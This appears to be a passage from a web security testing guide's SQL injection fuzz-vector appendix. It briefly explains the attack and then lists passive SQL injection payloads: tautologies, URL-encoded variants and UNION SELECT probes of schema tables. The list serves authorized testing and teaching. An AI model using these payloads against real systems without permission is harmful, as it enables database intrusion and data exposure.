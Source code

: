 This attack can affect the database layer of an application and is typically present when user input is not filtered for SQL statements.

For details on Testing SQL Injection: [Testing for SQL Injection](../4_Web_Application_Security_Testing/4.8_Input_Validation_Testing/4.8.5_Testing_for_SQL_Injection_WSTG-INPVAL-005.md)

SQL Injection is classified in the following two categories, depending on the exposure of database information (passive) or the alteration of database information (active).

- [Passive SQL Injection](#Passive-SQL-Injection-(SQP))
- [Active SQL Injection](#Active-SQL-Injection-(SQI))

Active SQL Injection statements can have a detrimental effect on the underlying database if successfully executed.

### Passive SQL Injection (SQP)

`'||(elt(-3+5,bin(15),ord(10),hex(char(45))))`

`||6`

`'||'6`

`(||6)`

`' OR 1=1--`

`OR 1=1`

`' OR '1'='1`

`; OR '1'='1'`

`%22+or+isnull%281%2F0%29+%2F*`

`%27+OR+%277659%27%3D%277659`

`%22+or+isnull%281%2F0%29+%2F*`

`%27+--+`

`' or 1=1--`

`" or 1=1--`

`' or 1=1 /*`

`or 1=1--`

`' or 'a'='a`

`" or "a"="a`

`') or ('a'='a`

`Admin' OR '`

`'%20SELECT%20*%20FROM%20INFORMATION_SCHEMA.TABLES--`

`) UNION SELECT%20*%20FROM%20INFORMATION_SCHEMA.TABLES;`

`' having 1=1--`
